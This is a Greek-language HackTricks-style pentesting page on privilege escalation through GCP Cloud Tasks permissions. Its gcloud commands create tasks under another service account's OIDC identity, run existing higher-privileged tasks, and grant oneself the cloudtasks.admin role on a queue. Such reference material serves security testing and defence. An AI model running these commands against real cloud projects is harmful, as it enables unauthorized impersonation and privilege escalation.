 # GCP - Cloud Tasks Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Tasks

### `cloudtasks.tasks.create`, `iam.serviceAccounts.actAs`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να **παριστάνει άλλους λογαριασμούς υπηρεσιών** δημιουργώντας εργασίες που εκτελούνται με την ταυτότητα του καθορισμένου λογαριασμού υπηρεσίας. Αυτό επιτρέπει την αποστολή **επαληθευμένων HTTP αιτημάτων σε υπηρεσίες Cloud Run ή Cloud Functions που προστατεύονται από IAM**.
```bash
gcloud tasks create-http-task \
task-$(date '+%Y%m%d%H%M%S') \
--location us-central1 \
--queue <queue_name> \
--url 'https://<service_name>.us-central1.run.app' \
--method POST \
--header 'X-Hello: world' \
--body-content '{"hello":"world"}' \
--oidc-service-account-email <account>@<project_id>.iam.gserviceaccount.com
```
### `cloudtasks.tasks.run`, `cloudtasks.tasks.list`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να **εκτελεί υπάρχουσες προγραμματισμένες εργασίες** χωρίς να έχει άδειες στον λογαριασμό υπηρεσίας που σχετίζεται με την εργασία. Αυτό επιτρέπει την εκτέλεση εργασιών που δημιουργήθηκαν προηγουμένως με λογαριασμούς υπηρεσίας υψηλότερης εξουσίας.
```bash
gcloud tasks run projects/<project_id>/locations/us-central1/queues/<queue_name>/tasks/<task_id>
```
Ο κύριος που εκτελεί αυτή την εντολή **δεν χρειάζεται άδεια `iam.serviceAccounts.actAs`** στον λογαριασμό υπηρεσίας της εργασίας. Ωστόσο, αυτό επιτρέπει μόνο την εκτέλεση υπαρχουσών εργασιών - δεν παρέχει τη δυνατότητα δημιουργίας ή τροποποίησης εργασιών.

### `cloudtasks.queues.setIamPolicy`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί **να παραχωρήσει στον εαυτό του ή σε άλλους κύριους ρόλους Cloud Tasks** σε συγκεκριμένες ουρές, ενδεχομένως κλιμακώνοντας σε `roles/cloudtasks.admin` που περιλαμβάνει τη δυνατότητα δημιουργίας και εκτέλεσης εργασιών.
```bash
gcloud tasks queues add-iam-policy-binding \
<queue_name> \
--location us-central1 \
--member serviceAccount:<account>@<project_id>.iam.gserviceaccount.com \
--role roles/cloudtasks.admin
```
Αυτό επιτρέπει στον επιτιθέμενο να παραχωρήσει πλήρη δικαιώματα διαχειριστή Cloud Tasks στην ουρά σε οποιονδήποτε λογαριασμό υπηρεσίας ελέγχει.

## Αναφορές

- [Google Cloud Tasks Documentation](https://cloud.google.com/tasks/docs)

{{#include ../../../banners/hacktricks-training.md}}
